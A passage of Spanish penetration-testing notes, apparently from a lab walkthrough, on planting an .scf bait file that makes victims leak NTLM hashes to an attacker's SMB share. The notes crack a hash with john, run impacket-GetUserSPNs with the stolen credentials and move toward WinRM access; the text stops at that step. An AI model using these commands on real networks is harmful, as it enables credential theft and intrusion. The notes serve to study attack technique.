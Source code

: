 
#### PONER CEBO DE PARA AUTENTICACIÓN SMB:

1. En una de las carpetas compartidas donde tengamos permisos de escritura, crearemos un archivo con extensión .scf (por ejemplo miraesto.scf) con el siguiente contenido:

```bash
[shell]
Command=2
IconFile=\\10.10.14.14\smbFolder\image.jpg
```

2. Por otro lado crearemos el recurso compartido con SAMBA en nuestra máquina visible desde la máquina víctima, verá una app con el icono con el .jpg que hayamos definido:

```bash
$ impacket-smbserver smbFolder $(pwd) -smb2support
...
```

3. En el momento que la víctima entre en alguna de sus carpetas, vea el icono y lo intente ejecutar, hará un intento de validación con sus credenciales en nuestro recurso compartido, capturando su hash de inicio de sesión:

4. Cogemos ese hash y el usuario y lo crackeamos con *john*:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
miSuperPassword123     (amanda)
```

5. A partir de aquí, se pueden probar todas las formas de validación contra el servidor que queramos.


-----

## ANEXO:

#### EXTRAER LOS TGS:

1. Con las credenciales obtenidas del usuario "amanda" podemos lanzar contra un recurso en específico.

```shell
$ impacket-GetUserSPNs contoso.local/amanda:miSuperPassword123 
```

2. Los resultados obtenidos son pobres ya que no tenemos el puerto 88 de kerberos expuesto pero en el informe vemos que el usuario "amanda" pertenece a un grupo llamado "Remote Management Users" ¿Qué podemos hacer con esto? Pues autenticarnos en el sistema por *WinRM*. 

3. IMPORTANTE: Antes de poder entrar deberemos conseguir un clave pública .cer y otro .key correspondiente a la clave privada y en el video no explica cómo. Cuando sepa cómo hacerlo actualizaré. Más info https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials

4. Nos autenticamos por WinRM contra el servidor:
